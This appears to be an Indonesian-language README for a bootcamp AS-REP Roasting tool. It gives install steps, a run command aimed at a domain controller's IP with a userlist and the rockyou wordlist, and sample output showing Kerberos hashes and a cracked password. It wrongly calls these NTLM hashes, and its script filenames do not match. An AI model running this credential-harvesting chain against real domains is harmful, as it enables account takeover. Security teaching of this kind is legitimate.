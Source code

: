 
# 🔐 AS-REP Roasting Full Chain

AS-REP Roasting adalah teknik serangan Kerberos yang memungkinkan attacker mendapatkan hash NTLM user **tanpa perlu login atau password**, selama user tersebut **tidak mengaktifkan pre-authentication**.

Script ini menjalankan seluruh proses roasting secara otomatis:
1. Kirim permintaan AS-REQ ke KDC
2. Ambil AS-REP response dari user yang vulnerable
3. Ekstrak hash
4. Crack hash menggunakan `hashcat`
5. Tampilkan hasilnya langsung

---

## 🚀 Fitur Utama

✅ Kompatibel dengan Impacket terbaru  
✅ Tidak memerlukan kredensial (pre-auth bypass)  
✅ Format hash langsung kompatibel dengan hashcat  
✅ Crack otomatis + tampilkan hasil (`--show`)  
✅ Output disimpan ke file `asrep_hashes.txt`  

---

## 📦 Kebutuhan Sistem

- Python 3.8+
- Hashcat

### 🛠️ Instalasi dengan Virtual Environment (Direkomendasikan):

```bash
# 1. Buat dan aktifkan virtual environment
python3 -m venv venv
source ./venv/bin/activate

# 2. Install dependensi
python3 -m pip install -r requirements.txt

# 3. Install hashcat jika belum tersedia
sudo apt install hashcat
```

---

## 📁 Struktur File biar lebih mudah, tapi kalau ingin custom juga bisa

```
.
├── KerberosBrute.py     # script utama
├── requirements.txt       # dependensi Python
├── userlist.txt           # daftar user target (1 per baris)
└── rockyou.txt            # wordlist untuk hashcat
```

---

## ✍️ Contoh Isi `userlist.txt`

```
admin
labuser
test123
```

---

## ▶️ Cara Menjalankan

```bash
python3 asrep_fullchain.py <DOMAIN> <KDC_IP> <USERLIST.TXT> <WORDLIST.TXT>
```

### Contoh:

```bash
python3 asrep_fullchain.py domain.local 192.168.1.10 userlist.txt rockyou.txt
```

---

## 📤 Output

### ✅ File Hash (asrep_hashes.txt)

```
$krb5asrep$23$admin@domain.local:4c40c57dbac79b3b...$a7ac...
```

### ✅ Password yang Berhasil Ditemukan

Setelah proses cracking selesai:

```
$krb5asrep$23$admin@domain.local:...:SuperSecret123
```

---

## 💡 Tips

- Coba wordlist lokal yang lebih spesifik dari target (nama, tanggal, pola umum).
- Jalankan di mesin dengan GPU agar cracking lebih cepat.
- Gunakan opsi tambahan `hashcat` jika perlu: `--status`, `--session`, dll.

---

## ❗ Legal Disclaimer

> 🛡️ This tool is for **educational purposes** and **authorized security testing only**.  
> Do **NOT** use against systems you don't own or don't have explicit permission to test.

---

## 👨‍💻 Credits

Script oleh [YourName] untuk keperluan bootcamp & edukasi  
Menggunakan [Impacket](https://github.com/fortra/impacket) & [Hashcat](https://hashcat.net/hashcat/)
